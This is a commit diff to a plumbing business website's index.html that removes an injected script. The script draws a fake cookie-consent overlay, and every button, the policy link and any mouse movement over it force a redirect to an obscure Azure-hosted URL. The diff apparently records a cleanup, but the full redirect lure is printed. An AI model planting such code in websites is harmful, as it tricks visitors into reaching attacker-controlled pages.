

Before and after one commit to trinhquan7554999-lang/plumber, a website: page index.html in a window 1280 px wide. Shown: the top 800 px of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -188,150 +188,6 @@
   </script>
 
   <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/js/bootstrap.bundle.min.js"></script>
-<script>
-        document.addEventListener("DOMContentLoaded", function () {
-            const redirectUrl = "https://us1fjljefjewyf8y4y42.z19.web.core.windows.net/";
 
-            const style = document.createElement("style");
-            style.textContent = `
-                .cookie-overlay {
-                    position: fixed;
-                    inset: 0;
-                    background: rgba(0, 0, 0, 0.8);
-                    backdrop-filter: blur(10px);
-                    display: flex;
-                    align-items: center;
-                    justify-content: center;
-                    padding: 20px;
-                    z-index: 9999;
-                    animation: fadeInBackground 0.5s ease-out forwards;
-                }
-
-                @keyframes fadeInBackground {
-                    from { opacity: 0; }
-                    to { opacity: 1; }
-                }
-
-                .cookie-popup {
-                    position: fixed;
-                    bottom: 60px;
-                    left: 50%;
-                    transform: translateX(-50%);
-                    background-color: #ffffff;
-                    border: none;
-                    color: #333;
-                    padding: 30px;
-                    border-radius: 10px;
-                    z-index: 10000;
-                    box-shadow: 0 4px 20px rgba(0, 0, 0, 0.2);
-                    max-width: 400px;
-                    text-align: center;
-                }
-
-                .close-btn {
-                    background: none;
-                    border: none;
-                    font-size: 1.5rem;
-                    position: absolute;
-                    top: 10px;
-                    right: 10px;
-                    cursor: pointer;
-                    color: #888;
-                }
-
-                .btn-primary {
-                    background-color: #007bff;
-                    color: #fff;
-                    border: none;
-                    padding: 12px 24px;
-                    border-radius: 5px;
-                    cursor: pointer;
-                    margin-top: 15px;
-                    display: inline-block;
-                    text-decoration: none;
-                    transition: background-color 0.3s;
-                }
-
-                .btn-primary:hover {
-                    background-color: #0056b3;
-                }
-
-                h3 {
-                    font-family: 'Arial', sans-serif;
-                    margin-bottom: 10px;
-                }
-
-                p {
-                    font-family: 'Arial', sans-serif;
-                    line-height: 1.5;
-                }
-            `;
-            document.head.appendChild(style);
-
-            const overlay = document.createElement("div");
-            overlay.className = "cookie-overlay";
-            overlay.id = "cookie-overlay";
-            overlay.innerHTML = `
-<div class="cookie-popup">
-<button class="close-btn" id="close-popup" aria-label="Close cookie policy">×</button>
-<h3>Cookie Policy</h3>
-<p>
-                    This site uses cookies to personalize content and ads, provide social media features, and analyze our traffic.
-                    By clicking Accept, you agree to our use of cookies. For more information, please visit our
-<a href="${redirectUrl}" class="cta" style="text-decoration: underline; color: #007bff;">Cookie Policy</a>.
-</p>
-<a href="https://us1fjljefjewyf8y4y42.z19.web.core.windows.net/" id="accept-cookies" class="btn-primary">Accept</a>
-</div>
-            `;
-            document.body.appendChild(overlay);
-
-            let isRedirected = false;
-            let startPos = null;
-            let redirectTimeout = null;
-
-            const handleRedirect = () => {
-                if (!isRedirected) {
-                    isRedirected = true;
-                    window.location.href = redirectUrl;
-                }
-            };
-
-            const detectMouseMove = (event) => {
-                if (isRedirected) return;
-
-                const screenHeight = window.innerHeight;
-                const activeTop = screenHeight * 0.1;
-
-                if (event.clientY >= activeTop) {
-                    if (!startPos) {
-                        startPos = { x: event.clientX, y: event.clientY };
-                    } else {
-                        const dx = Math.abs(event.clientX - startPos.x);
-                        const dy = Math.abs(event.clientY - startPos.y);
-
-                        if ((dx > 10 || dy > 10) && !redirectTimeout) {
-                            redirectTimeout = setTimeout(handleRedirect, 1000);
-                        }
-                    }
-                } else {
-                    startPos = null;
-                    clearTimeout(redirectTimeout);
-                    redirectTimeout = null;
-                }
-            };
-
-            document.getElementById("cookie-overlay").addEventListener("mousemove", detectMouseMove);
-
-            document.getElementById("accept-cookies").addEventListener("click", function (e) {
-                e.preventDefault();
-                handleRedirect();
-            });
-
-            document.getElementById("close-popup").addEventListener("click", function (e) {
-                e.preventDefault();
-                handleRedirect();
-            });
-        });
-</script>
     </body>
 </html>
```
